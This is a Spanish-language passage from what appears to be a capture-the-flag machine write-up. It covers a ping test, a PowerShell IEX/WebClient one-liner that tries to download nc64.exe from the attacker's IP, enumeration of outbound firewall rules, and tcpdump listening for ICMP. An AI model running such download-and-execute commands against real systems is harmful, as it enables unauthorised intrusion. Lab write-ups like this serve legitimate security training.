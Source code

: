 Luego intenté ver si podía hacer ping a mi máquina desde aquí:

![Ping test](/secciones/posts/imagenes/object/ping1.webp)

Es exitoso, ahora podemos transferir nc64.exe a esta máquina.

```bash
cmd /c powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/nc64.exe')
```

Esto nos da como salida error "Unable to connect to the remote server". Es sospechoso y nos hace pensar que tendremos problemas para ganar acceso al sistema. Lo más lógico ahora sería enumerar reglas de firewall, ya que podemos inyectar código de otras formas, para saber si está bien securizado y no perder el tiempo.

## Enumeración del Firewall

Lanzamos:

```powershell
cmd /c powershell -c Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True
```

Esto se traduce a que queremos que nos muestre aquellas reglas del tráfico saliente, aquellas reglas definidas que estén bloqueando el tráfico. Se puede apreciar que en DisplayName aparece "BlockOutboundDC". Al parecer hay reglas establecidas para impedir el tráfico saliente.

Ahora intentamos con el comando:

```powershell
cmd /c powershell -c Get-NetFirewallRule -Direction Outbound -Action Allow -Enabled True
```

"Allow" para filtrar con aquellas que estén habilitadas "conexión saliente", lo que nos da una salida bastante grande. Filtramos por ICMP4-OUT el cual está habilitado.

Deducimos que lo que respecta a tráfico saliente de traza ICMP sí acontece, así que matamos el servidor y montamos tcpdump en escucha en la interfaz tun0, escuchando trazas ICMP:

```bash
sudo tcpdump -i tun0 icmp -n
```
